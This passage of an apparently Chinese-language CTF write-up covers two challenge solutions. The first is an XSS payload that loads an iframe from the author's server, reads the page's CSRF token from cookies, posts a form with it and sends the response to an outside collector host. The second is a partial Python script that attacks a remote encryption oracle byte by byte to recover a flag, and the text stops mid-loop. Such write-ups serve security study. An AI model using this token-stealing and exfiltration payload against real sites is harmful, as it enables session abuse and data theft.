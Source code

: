 ```
&lt;/body&gt;
&lt;/html&gt;
var loginIframe = document.createElement('iframe');
loginIframe.setAttribute('src', 'http://xss.albertchang.cn/attack/login-target.html');
top.document.body.appendChild(loginIframe);
setTimeout(function() {
//document.cookie = "csrftoken=cQmHtL1l4LyBPq8eg5yp9Sf6JrZrkqdiySkSf36veE13JypisP4YKOyEjKywR96F;domain=*.xctf.org.cn;path=/";
//console.log(document.cookie['csrftoekn']);
//cookie动态获取，本来想着直接写死的，但是没有成功,本层只有一个cookie是csrftoken，直接取出来就好
var token= document.cookie.split('=')[1];
console.log(token);
$.post("http://diary.bctf.xctf.org.cn/survey/",
{rate:'1',suggestion:'albertchang',csrfmiddlewaretoken:token},
function (data){
$.get("http://xss.albertchang.cn/?data="+escape(data));
}
);}
, 9000);
```

[![](./img/85920/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0114fbbf0d8f66ae87.png)

<br>

**Crypto**

**Hulk:**

首先测试发现flag应该是38位，因为输入9个字符和10个字符明显多出来一组，所以根据拼接方式可以知道应该是38位



```
#!/usr/bin/env python
# encoding: utf-8
from zio import *
flag = ''
target = ('202.112.51.217',9999)
dic = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}"
def get_payload(a, b, c):
    return ''.join(chr(ord(a[i]) ^ ord(b[i]) ^ ord(c[i])) for i in xrange(16))
def exp(i, payload):
    io = zio(target, timeout=5, print_read = COLORED(NONE, 'red'), print_write = COLORED(NONE, 'green'))
    io.read_until('encrypt: 0x')
    pay1 = '30' * (48-i)
    io.writeline(pay1)
    io.read_until('ciphertext')
    data = io.read_until('Give')
    io.read_until('encrypt: 0x')
    ciphertext1 = data[data.find('0x')+2:-5]
    data1 = ciphertext1[64:96]
    tmp = ('0' * (39 - len(flag + payload)) + flag + payload)[-16:]
    pay2 = get_payload(ciphertext1[32:64].decode('hex'), ciphertext1[-32:].decode('hex'), tmp).encode('hex')
    io.writeline(pay2)
    io.read_until("ciphertext")
    r2 = io.read_until("n")
    ciphertext12 = r2[r2.find('0x')+2:r2.find('0x')+34]
    io.close()
    if data1 == ciphertext12:
        return 1
    else :
        return 0
for i in xrange(1, 39):
    for pay in dic:
```